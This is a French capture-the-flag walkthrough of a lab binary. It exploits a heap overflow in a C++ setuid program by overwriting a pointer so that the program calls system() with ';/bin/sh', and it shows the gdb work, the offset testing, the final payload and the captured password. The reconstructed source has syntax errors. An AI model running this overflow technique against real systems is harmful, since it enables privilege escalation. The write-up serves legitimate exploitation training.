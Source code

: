 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2009(level9) gid=2009(level9) groups=2009(level9),100(users)
/home/user/level9
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level9 :

```bash
$ ./level9
$
$ ./level9 da
$
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=563ef243-714b-4c51-a5a5-ecc13358fab5) et en extrait une version probable du code :


```c++
class N
{
    public:
        N(int x) : number(x)
        {
        }

        void setAnnotation(char *input) // <----2 writes into the 100 bytes buffer with a user defined limit = heap overflow
        {
            memcpy(annotation, input, strlen(input)); 
        }

        virtual int operator+(N &some)
        {
            return number + some.number;
        }

        virtual int operator-(N &some)
        {
            return number - some.number
        }

    private:
        char annotation[100]; // <--------------1 100 bytes buffer declared here
        int number;
};

int main(int argc, char **argv)
{
	if (argc <= 1)
        exit(1);

	N *five = new N(5); // <--------------------3 first reference
	N *six = new N(6);

	N &five = *five // <------------------------4 second reference
    N &six = *six;

	five.setAnnotation(argv[1]);

	return five + six; // <---------------------5 N is evaluated and will double jump to shellcode due to the overflow
}
```
Oh... Il semble qu'on ai à faire à du `C++` ici.
Cette reconstitution s'appuie principalement sur la décompilation par `Hexray` en unifiant l'ensemble dans une `classe` nommée `N`.

A priori, pas d'appel à `bin/sh` dans le code, il va donc me falloir utiliser l'une des méthodes des premiers niveaux, notamment celle d'exécution arbitraire de fonction dans la `libc` (`Ret2Libc`), si `C++` me le permet.

La seule vulnérabilité que j'observe dans cette reconstitution serait `memcpy()`. Ici, `memcpy()` ne s'assure pas que l'annotation passée par `argv[1]` rentre dans le buffer de `100` déclaré par la structure N lorsqu'elle utilise `setAnnotation()`.

Il serait donc possible ici alors de ré-écrire la valeur de retour de la fonction `setAnnotation()` afin qu'elle pointe, à la manière du `level2`, sur un appel arbitraire à `system()`, auquel nous pourrons demander d'exécuter `bin/sh`. Cependant, il faut noter la double référence présente dans le code source, il faudra faire donc deux "saut" : il ne sera pas possible d'appeller `system()` directement à l'overflow à cause de la dé-référence. Une façon d'y pallier serait que l'overflow fasse pointer sur le début d'`annotation`, lui même contenant l'appel à `system()`.

Je cherche d'abord l'adresse de `system()` avec `gdb` :

```h
$ gdb ./level9
(gdb) disas main
    ...
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret

(gdb) break *main+165
Breakpoint 1 at 0x8048699

(gdb) set args dab

(gdb) r
Starting program: /home/user/level9/level9 dab

Breakpoint 1, 0x08048699 in main ()

(gdb) print system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

Je détermine ensuite le padding nécessaire pour l'overflow :

```bash
$ ./level9 `python -c 'print("\x90" * 100)'`
$ ./level9 `python -c 'print("\x90" * 200)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 150)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 125)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 110)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 105)'`
$ ./level9 `python -c 'print("\x90" * 108)'`
$ ./level9 `python -c 'print("\x90" * 109)'`
Segmentation fault (core dumped)
```

En rétrospecte, je comprend pourquoi je trouve que l'overflow est à 108 bytes : plus haut, j'ai déterminé que le buffer `annotation` était de 100 bytes, et qu'`Hexray` le placait à `ebp-8`, mais aussi, et plus spécifiquement, qu'il était déclaré ici : `v3 = (N *)operator new(0x6Cu);` à 108 bytes.
Cela corrèle donc avec le segfault observé au 109ème `NOP` passé dans les test ci-dessus.

Il me faut donc trouver quelle est l'adresse qui correspond au début de mon payload infecté lorsqu'il est utilisé par `setAnnotation()`, si la première adresse de l'overflow pointe vers le début du payload, alors le programme exécutera ensuite le payload, et donc `system()` auquel je pourrais passer `bin/sh` comme argument.

Je me penche sur `gdb` pour trouver l'adresse du début de l'array `annotation`.

Je peux trouver l'adresse de `annotation` en inférant que `%eax` la contiendra au retour de `setAnnotation()` car `memcpy()`[retourne son premier argument](https://pubs.opengroup.org/onlinepubs/7908799/xsh/memcpy.html), et il sera donc stocké dans `%eax`.

Je peux lancer le binaire, mettre un break au retour de `setAnnotation()`, puis analyser la valeur de `%eax` :

```h
(gdb) b *main+136
Breakpoint 1 at 0x804867c

(gdb) set args dab

(gdb) r
Starting program: /home/user/level9/level9 dab

Breakpoint 1, 0x0804867c in main ()
(gdb) info registers
eax            0x804a00c        134520844
ecx            0x6164   24932
edx            0x804a00f        134520847
ebx            0x804a078        134520952
...
```

Je trouve donc l'adresse : `0x804a00c`.

Avec ces 3 informations :

- Adresse de `system()` -> 0xb7d86060
- Overflow à 108 bytes
- Adresse de `annotation` -> 0x804a00c

J'essaye ce paytl
Je peux créer un payload infecté :

```python
#                |    system()    |         | NOP sled |    | annotation[0] |         | system(args) |    
python -c 'print("\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh")'
```

Ce payload aura pour effet d'overflow après le padding de 104 bytes (108 - l'adresse de `system()`), trouvera une adresse qui pointe sur le début d'`annotation`, ce qui exécutera le début de `annotation`, et donc `system()`, qui prendra comme argument le `NOP sled` (le padding), l'adresse qui pointait vers `annotation`, puis pour ignorer le 'bruit' précédent, passera `;bin/sh` avec un ';' afin que l'instruction précédente soit simplement un échec et que le shell soit ensuite exécuté.

Je teste mon payload :

```bash

$ ./level9 $(python -c 'print("\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh")')
sh: 1:
       : not found
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```







